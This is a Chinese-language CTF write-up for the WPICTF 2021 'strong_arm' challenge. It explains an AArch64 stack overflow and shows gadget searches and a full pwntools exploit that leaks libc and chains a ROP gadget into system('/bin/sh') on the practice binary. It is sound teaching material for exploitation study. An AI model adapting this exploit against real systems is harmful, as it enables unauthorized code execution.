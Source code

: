 # Wpictf 2021 Strong_arm


文件来源: [strong_arm]([ctf-write-ups/wpictf2021/strong_arm at master · datajerk/ctf-write-ups (github.com)](https://github.com/datajerk/ctf-write-ups/tree/master/wpictf2021/strong_arm))
<!--more-->
## 环境搭建

安装 `qemu-user`，`libc` 和 `binutils`：

```shell
$ sudo apt install qemu-user libc6-arm64-cross binutils-aarch64-linux-gnu
```

发现交叉编译工具链里没有 `ldd`，可以用 `readelf` 替代：

```shell
$ aarch64-linux-gnu-readelf -a arm | grep 'library'
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
```

查找 gadget：

```shell
$ ropper --nocolor --file /usr/aarch64-linux-gnu/lib/libc.so.6 > gadget
$ cat gadget | grep ': ldr x0.*; ldp x29, x30, \[sp\], #0x[0-9a-f]*; ret; $'
```

## 漏洞分析

非常明显的栈溢出漏洞。但需要注意的是 Aarch64 的函数调用栈栈帧结构与 x86 不同。以该题 `main` 栈帧为例，`x29` 和 `x30` 分别是栈基址寄存器和 `lr` 。可以看到这两个寄存器的值保存在栈顶，然后才是局部变量。栈帧结构与 x86 正好是相反的。因此发生栈溢出的时候能够修改的是 `caller` 的返回地址。

```assembly
.text:00000000004006B0                 STP             X29, X30, [SP,#var_20]!
.text:00000000004006B4                 MOV             X29, SP
.text:00000000004006B8                 STR             W0, [X29,#0x20+var_4]
.text:00000000004006BC                 STR             X1, [X29,#0x20+var_10]
.text:00000000004006C0                 ADRP            X0, #printf_ptr@PAGE
.text:00000000004006C4                 LDR             X1, [X0,#printf_ptr@PAGEOFF]
.text:00000000004006C8                 ADRL            X0, aPrintAtP ; "print at %p\n"
.text:00000000004006D0                 BL              .printf
.text:00000000004006D4                 BL              vulnerable
.text:00000000004006D8                 MOV             W0, #0
.text:00000000004006DC                 LDP             X29, X30, [SP+0x20+var_20],#0x20
.text:00000000004006E0                 RET
```

由于 `ret` 指令不从栈上取返回地址，而是从 `x30` 取，因此 rop chain 的构造比 x86 要困难一些。

```python
# ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
gadget = 0x0000000000063e1c
payload = b'a' * 0x88 + p64(gadget + libc.address) + b'a' * 0x18 + p64(libc.sym.system) + b'a' * 0x8 + p64(next(libc.search(b'/bin/sh')))
```

这里使用的 libc 是 2.31 版本，不过构造方法应该都是一致的。首先填充 `vuln` 函数的局部变量空间以及 `x29` 然后是我们的 gadget，然后填充 `main` 的局部变量空间。在 `main` 退出时 `sp` 指向 payload 中偏移为 0xa0 的位置，因此根据我们的 gadget 需要在 0xb8 的位置填上 `/bin/sh` 地址，再在栈顶填好 `x29`  和 `x30`，就可以调用 `system("/bin/sh")` 了。

完整 exp 如下：

```python
from pwn import *

context.log_level = 'debug'

binary = ELF('./arm')
libc = ELF('/usr/aarch64-linux-gnu/lib/libc.so.6')

cmd = 'qemu-aarch64 -L /usr/aarch64-linux-gnu arm'
p = process(cmd.split(' '))

# ldr x0, [sp, #0x18]; ldp x29, x30, [sp], #0x20; ret;
gadget = 0x0000000000063e1c

p.recvuntil('print at ')
leak = int(p.recvline()[:-1], 16)
libc.address = leak - libc.sym.printf
success(hex(libc.address))

payload = b'a' * 0x88 + p64(gadget + libc.address) + b'a' * 0x18 + p64(libc.sym.system) + b'a' * 0x8 + p64(next(libc.search(b'/bin/sh')))

p.sendline(payload)

p.interactive()
```


